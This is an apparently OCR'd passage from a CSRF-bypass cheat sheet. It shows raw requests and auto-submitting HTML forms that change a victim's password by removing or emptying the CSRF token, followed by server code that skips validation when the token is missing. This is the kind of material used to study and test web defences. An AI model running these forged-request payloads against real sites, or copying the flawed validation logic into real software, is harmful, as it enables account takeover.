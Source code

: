       ```html
      # remove the token
      POST /password_change
      Host: email.example.com
      Cookie: session_cookie=YOUR_SESSION_COOKIE
      (POST request body)
      new_password=abc123
      -------------------------------------------------------------
      <html>
       <form method="POST" action="<https://email.example.com/password_change>" id="csrf-form">
       <input type="text" name="new_password" value="abc123">
       <input type='submit' value="Submit">
       </form>
       <script>document.getElementById("csrf-form").submit();</script>
      </html>
      ----------------------------------------------------------------
      # Empty Parameter
      POST /password_change
      Host: email.example.com
      Cookie: session_cookie=YOUR_SESSION_COOKIE
      (POST request body)
      new_password=abc123&csrf_token=
      ---------------------------------------------------------------------
      <html>
       <form method="POST" action="<https://email.example.com/password_change>" id"csrf-form">
       <input type="text" name="new_password" value="abc123">
       <input type="text" name="csrf_token" value="">
       <input type='submit' value="Submit">
      </form>
       <script>document.getElementById("csrf-form").submit();</script>
      </html>
      --------------------------
      # Expected Code
      def validate_token():
       if (request.csrf_token == session.csrf_token):
      		 pass
       else:
      	 throw_error("CSRF token incorrect. Request rejected.")
      [...]
      def process_state_changing_action():
      	 if request.csrf_token:
      		 validate_token()
      		 execute_action()
      ```
  *   **Weak Token Integriti ( Reuse token )**
